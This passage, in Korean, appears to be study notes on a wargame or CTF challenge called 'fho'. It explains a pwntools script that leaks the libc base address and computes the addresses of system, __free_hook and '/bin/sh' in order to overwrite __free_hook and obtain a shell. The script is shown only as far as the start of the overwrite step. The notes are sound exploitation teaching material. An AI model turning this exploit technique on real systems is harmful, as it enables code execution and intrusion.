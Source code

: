 ```python
slog('free_hook', free_hook)
slog('/bin/sh', binsh)
```

### 2. 셸 획득

- 구해낸 `__free_hook` , `system` 함수, `"/bin/sh"` 문자열의 주소를 이용하면 셸을 획득할 수 있음
- 왜 `str(system).encode()`를 사용하는가?
    - `str(system).encode()`는 `system` 함수의 주소를 문자열로 변환한 뒤, 이를 바이트 문자열로 인코딩합니다.
    - `scanf`는 문자열 형태로 입력을 받기 때문에, 이를 문자열로 전달해야 합니다.
    - `encode()` 메서드를 사용하여 바이트 문자열로 변환하는 이유는 `pwntools`의 `sendline` 함수가 바이트 문자열을 요구하기 때문입니다.
- `p64`와 `str.encode`의 차이점
    - `p64(freehook)`는 주소를 리틀 엔디안 형식으로 바이트 배열로 변환합니다. 이는 메모리 조작 등에서 직접 주소를 취급할 때 유용하지만, `scanf`와 같은 함수에서 문자열로 입력을 받을 때는 적절하지 않습니다.
    - `str(freehook).encode()`는 숫자를 문자열로 변환하고, 이를 바이트 문자열로 인코딩합니다. 이는 `scanf("%llu", &addr);`와 같은 입력을 받을 때 적합합니다.
- `libc.symbols`와 `libc.search`는 각각 다른 목적을 가지고 있으며, 이를 통해 얻는 값들도 다릅니다. `libc.symbols`는 심볼 테이블에서 특정 함수나 변수의 오프셋을 가져오는 반면, `libc.search`는 주어진 바이트 시퀀스를 바이너리 내에서 검색하여 그 위치를 반환합니다. 따라서 `/bin/sh` 문자열의 위치를 찾기 위해 `next(libc.search(b'/bin/sh'))`를 사용하는 것입니다.
- 차이점 정리
    1. **`libc.symbols`**:
        - `libc.symbols`는 공유 라이브러리(여기서는 `libc`)의 심볼 테이블에서 함수나 전역 변수의 오프셋을 가져옵니다.
        - 예를 들어, `libc.symbols['system']`은 `libc`에서 `system` 함수의 오프셋을 반환합니다.
        - 마찬가지로, `libc.symbols['__free_hook']`은 `libc`에서 `__free_hook` 변수의 오프셋을 반환합니다.
    2. **`libc.search`**:
        - `libc.search`는 주어진 바이트 시퀀스를 라이브러리의 메모리에서 검색합니다.
        - `next(libc.search(b'/bin/sh'))`는 `libc` 바이너리 내에서 `/bin/sh` 문자열을 검색하고, 해당 문자열의 주소를 반환합니다.
        - 이 주소는 문자열 자체가 저장된 위치를 가리킵니다.
- 왜 `next(libc.search(b'/bin/sh'))`를 사용하는가?
    - `/bin/sh` 문자열은 함수나 변수처럼 명시적으로 심볼 테이블에 기록된 항목이 아닙니다.
    - 대신, `libc` 바이너리 내에 하드코딩된 문자열로 존재합니다.
    - 따라서, 심볼 테이블을 통해서가 아니라, 바이너리 전체를 검색하여 문자열의 위치를 찾아야 합니다.

```python
#!/usr/bin/env python3
# Name: fho.py

from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
# p.recvline()[:-1]에 값 = b'\x87\xcc\xf1\xe2\x5a\x7f'
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# 또는 libc_base = libc_start_main_xx - libc.libc_start_main_return
system = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

slog('libc_base', libc_base)
slog('system', system)
slog('free_hook', free_hook)
slog('/bin/sh', binsh)

# [2] Overwrite `free_hook` with `system`
p.recvuntil('To write: ')
```